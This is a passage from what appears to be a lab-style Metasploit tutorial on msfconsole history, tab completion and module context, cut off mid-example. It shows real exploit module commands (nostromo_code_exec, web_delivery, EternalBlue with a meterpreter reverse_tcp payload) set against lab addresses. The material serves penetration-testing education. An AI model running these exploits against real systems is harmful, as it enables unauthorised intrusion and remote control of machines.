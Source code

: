You can use the history command to see commands you have typed earlier.

**History command**

```bash 
msf6 > history
1  use exploit/multi/http/nostromo_code_exec
2  set lhost 10.10.16.17
3  set rport 80
4  options
5  set rhosts 10.10.29.187
6  run
7  exit
8  exit -y
9  version
10  use exploit/multi/script/web_delivery
```

An important feature of msfconsole is the support of tab completion. This will come in handy later when using Metasploit commands or dealing with modules. For example, if you start typing he and press the tab key, you will see it auto-completes to help.

Msfconsole is managed by context; this means that unless set as a global variable, all parameter settings will be lost if you change the module you have decided to use. In the example below, we have used the ms17_010_eternalblue exploit, and we have set parameters such as RHOSTS. If we were to switch to another module (e.g. a port scanner), we would need to set the RHOSTS value again as all changes we have made remained in the context of the ms17_010_eternalblue exploit. 

Let us look at the example below to have a better understanding of this feature. We will use the MS17-010 “Eternalblue” exploit for illustration purposes.

Once you type the use exploit/windows/smb/ms17_010_eternalblue command, you will see the command line prompt change from msf6 to “msf6 exploit(windows/smb/ms17_010_eternalblue)”. The "EternalBlue" is an exploit allegedly developed by the U.S. National Security Agency (N.S.A.) for a vulnerability affecting the SMBv1 server on numerous Windows systems. The SMB (Server Message Block) is widely used in Windows networks for file sharing and even for sending files to printers. EternalBlue was leaked by the cybercriminal group "Shadow Brokers" in April 2017. In May 2017, this vulnerability was exploited worldwide in the WannaCry ransomware attack.

**Using an exploit**
```bash
msf6 > use exploit/windows/smb/ms17_010_eternalblue 
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) >
```

The module to be used can also be selected with the use command followed by the number at the beginning of the search result line.

While the prompt has changed, you will notice we can still run the commands previously mentioned. This means we did not "enter" a folder as you would typically expect in an operating system command line.

**Linux commands within a context**
sf6 exploit(windows/smb/ms17_010_eternalblue) > ls
[*] exec: ls
